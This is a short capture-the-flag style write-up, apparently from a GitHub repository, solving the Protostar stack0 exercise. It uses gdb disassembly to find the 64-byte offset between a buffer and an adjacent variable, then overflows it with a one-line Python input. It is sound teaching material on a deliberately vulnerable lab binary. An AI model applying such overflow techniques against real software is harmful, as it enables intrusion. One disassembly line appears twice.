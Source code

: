 ### Description

[Problem source](https://exploit-exercises.com/protostar/stack0/)


## Solution


The first five problems in this problem set are about stack buffer overflow. All
the programs are 32 bit ELF executables, without any stack protection, so
overflowing a stack variable is pretty easy in all cases.

To solve this level we have to change `modified` variable. Since it's the 32 bit
executable on linux, it uses `cdecl` calling convention. Let's fire up gdb and
see what happens under the hood. (Note: Running gdb will invalidate the
`SETUID` bit, but we don't care about privilages in this example, we just want
to modify local variable).


	<main>:       push   %ebp
	<main+1>:     mov    %esp,%ebp
	<main+3>:     and    $0xfffffff0,%esp
	<main+6>:     sub    $0x60,%esp
	<main+9>:     movl   $0x0,0x5c(%esp)
	<main+17>:    lea 0x1c(%esp),%eax
	<main+17>:    lea    0x1c(%esp),%eax
	<main+21>:    mov    %eax,(%esp)

Program allocates 0x60 bytes of memory for local variables, `buffer` variable
starts at 0x1c offset from $esp and `modified` at 0x5c. 0x5c - 0x1c = 0x40 = 64
bytes. So buffer and modified are located next to each other in the memory. If
we write anything past 64 bytes in buffer, it will be written in modified. Since
`gets()` doesn't check for the input size, we can simply produce 64 + 1
characters to the stdin and variable `modified` will be modified.

	python -c "print('a' * 65)" | ./stack01


## Lessions learned

SETUID programs can be ptraced, but they drop the SETUID bit.


## Problems

Why does the compiler subtract 0x60 from the $esp when all it needs is 0x44 for
local variables and additional 0x04 for parameter passing.
